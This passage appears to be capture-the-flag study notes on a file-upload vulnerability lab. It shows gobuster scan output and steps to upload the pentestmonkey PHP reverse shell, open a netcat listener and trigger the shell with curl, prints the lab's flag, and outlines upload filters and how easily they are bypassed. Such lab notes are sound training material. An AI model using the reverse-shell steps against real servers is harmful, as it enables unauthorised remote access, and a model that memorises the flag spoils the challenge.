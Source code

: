 >[+] User Agent:     gobuster/3.0.1
>[+] Timeout:        10s
>===============================================================
>2021/11/27 01:57:10 Starting gobuster
>===============================================================
>/.htaccess (Status: 403)
>/.hta (Status: 403)
>/.htpasswd (Status: 403)
>/assets (Status: 301)
>/favicon.ico (Status: 200)
>/index.php (Status: 200)
>/resources (Status: 301)
>/server-status (Status: 403)
>===============================================================
>2021/11/27 01:57:13 Finished
>===============================================================

2. Edit the ip address and port on the [Monkey Pentest Reverse Shell script](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and upload it to the server
3. Start a netcat listener on the port specified in the script `nc -nvlp 6000`
4. Launch the script with `curl http://shell.uploadvulns.thm/resources/scriptName`
5. Go to the /var/www directory and cat the flag.txt file to find THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}


## Filtering
- Client Side Filtering
    - It's running on the user's browser, and is easy to bypass because user can manipulate code
- Server Side Filtering
    - More difficult to bypass because it's running on server, in most cases is impossible to bypass entirely
### Filtering Types
- Extension validation
    - Used to identify (in theory) the contents of a file
    - In practice they're very easy to change and spoof, but windows uses them to identify file types, while unix based systems use magic numbers
    - Filters that check for extensions either _blacklist_or _whitelist_ extensions; they have a list of extensions that are allowed, and block everything else
- File type filtering
    - More intensive than extension validation
    - 2 types of file type filtering
        - MIME (Multipurpose Internet Mail Extension) validation
            - Used as an identifier for files that are transferred as attachments over email and http(s)
            - MIME type for a file upload is attached in the header of the request
            - Follow the format `<type>/<subtype>`
                - "spaniel.jpg" would be "image/jpeg"
            - Because MIME is based on the extension of the file like extension validation, it's easy to bypass
        - Magic Number Validation
            - Are more accurate of determining the contents of a file, but are not impossible to spoof
            - Magic number is a string of bytes at the beginning of the file content that identifies the content
                - Many sources to view which string of bytes correlate with a certain file type [gist](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5), [wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
- File Length Filtering
    - Prevent huge files from being uploaded to the server
    - Will likely not cause issues when uploading shells, but alternative shells may need to be used depending on file size
- File Name Filtering
    - Files uploaded to a server should be unique
        - Either add a random aspect to file
        - Or check if a file with the same name exists and give an error if true